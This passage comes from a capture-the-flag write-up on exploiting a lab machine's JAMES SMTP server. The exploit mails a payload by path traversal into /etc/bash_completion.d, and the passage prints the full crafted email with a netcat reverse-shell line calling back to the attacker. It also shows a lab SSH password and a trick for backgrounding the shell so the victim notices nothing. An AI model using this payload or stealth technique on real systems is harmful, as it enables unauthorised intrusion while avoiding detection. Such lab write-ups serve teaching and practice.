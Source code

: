
It all seemed superficial, such as the ID or the from address, until the last
difference, which, didn’t look different at all. I opened them both in `vi` to
see if there was something missing, and there was a subtle difference:

Script | Manual  
---|---  
![image-20200429231545372](https://0xdfimages.gitlab.io/img/image-20200429231545372.png) |  ![image-20200429233306700](https://0xdfimages.gitlab.io/img/image-20200429233306700.png)  
  
In my manual interaction, there’s extra carriage returns (`\r`, printed as
`^M` in `vi`) after the `'` and after the payload. I don’t quite know why that
made such a difference, but removing the two `^M` in vi (putting the cursor
over the character and pushing `x`) made it work. I could test it by running
`bash 4D61696C313538383231373333333237352D37.Repository.FileStreamStore`.

### Better User Experience

It bugged me a little bit that when I connected SSH as mindy, the SSH shell
just hung while I worked on my `nc` shell. I wanted to see if I could start a
payload that didn’t ruin the user’s SSH connection. In a real situation, I
wouldn’t want to break the user’s experience and draw attention to myself.

The best way to do this was with the `nc -e` payload. I found that if I added
a trailing `&`, it would start the process in the background and allow the
triggering process to continue. The email looks like:

    
    
    Return-Path: <'0xdf@10.10.14.47>^M
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>^M
    MIME-Version: 1.0^M
    Content-Type: text/plain; charset=us-ascii^M
    Content-Transfer-Encoding: 7bit^M
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost^M
    Received: from 10.10.14.47 ([10.10.14.47])^M
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252^M
              for <../../../../../../../../etc/bash_completion.d@localhost>;^M
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)^M
    FROM: 0xdf@10.10.14.47^M
    ^M
    '^M
    /bin/nc -e /bin/bash 10.10.14.47 443 &^M
    

mindy’s SSH session has some extra junk text, but the prompt comes in live
immediately:

    
    
    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    